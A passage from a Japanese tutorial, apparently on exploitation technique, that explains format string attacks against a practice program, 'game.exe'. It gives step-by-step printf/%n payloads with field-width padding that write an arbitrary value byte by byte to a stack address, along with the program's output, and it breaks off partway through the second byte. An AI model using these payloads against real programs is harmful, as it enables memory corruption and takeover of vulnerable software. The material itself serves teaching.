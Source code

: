 \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98c
aa 00 00 00
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98d
   bb 00 00 00
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98e
      cc 00 00 00
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98f
         dd 00 00 00
\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=
aa bb cc dd

　このように4つのアドレスをそれぞれの桁として扱い、任意の数値を書き込むこ
とができます。具体的には「\`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\x
f9\xff\xbf\x8f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%x.%n」のように、フォーマッ
トストリングに4つのアドレスを立て続けに書きます。初めの%nはフォーマットス
トリングの初めの4バイトを参照し、次の%nはフォーマットストリングの4バイト目
から7バイト目までの4バイトを参照します。

　例として0xddccbbaaという値をscoreに書き込んでみましょう。リトルエンディ
アンですので、はじめにbffff98c番地に0x000000aaを書き込みます。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\xf9\xff\xbf\x8f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%x.%n
[debug]addr of score \= bffff98c
[debug]addr of payload \= bffff950
Score of 鐃緒申鐃緒申鐃緒申鐃緒申鐃?fffb65.1.bffff8c4.4d532038.532050.b7eb116c.1. is 63(3f)!! 
\-\-\-\-\-

　フィールド幅オプションなしの状態では63という値が書き込まれます。これを
0xaaにするには、あとどれだけの出力を余分に行えばよいでしょうか。0xaaは10
進数で170ですので、170\-63\=107。つまり、108文字を余分に出力すれば0xaaを書
き込めます。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\xf9\xff\xbf\x8f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%108x.%n
[debug]addr of score \= bffff98c
[debug]addr of payload \= bffff950
Score of 鐃緒申鐃緒申鐃緒申鐃緒申鐃?fffb62.1.bffff8c4.4d532038.532050.b7eb116c. 1. is 170(aa)!! 
\-\-\-\-\-

　次に、2桁目の出力を行います。2桁目はbffff98d番地に0x000000bbを書き込み
ます。現在のところ、170(0xaa)バイトの出力ができていますが、0xbbはここから
さらに17バイト余分に文字を出力しなくてはなりません。当然、bffff98c番地に
aaを格納するために利用した%108xの後ろに、フィールド幅オプションを指定しな
ければなりません。しかし、%108xの後ろにはもう変換指定文字はありません。で
すので、「\`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\xf9\xff\xbf\x8f\
xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%x.%n.%x.%n.%x.%n.%x.%n」のようにひとつめ
の%nの後ろに%xを配置し、その後ろに2桁目の%nを置きます。
　ただし、このままでは2桁目の%nの前の%xが、本来2桁目のアドレスである\x8d
\xf9\xff\xbfを参照してしまいます。結果として2桁目の%nは3桁目の\x8e\xf9\x
ff\xbfを参照してしまいます。
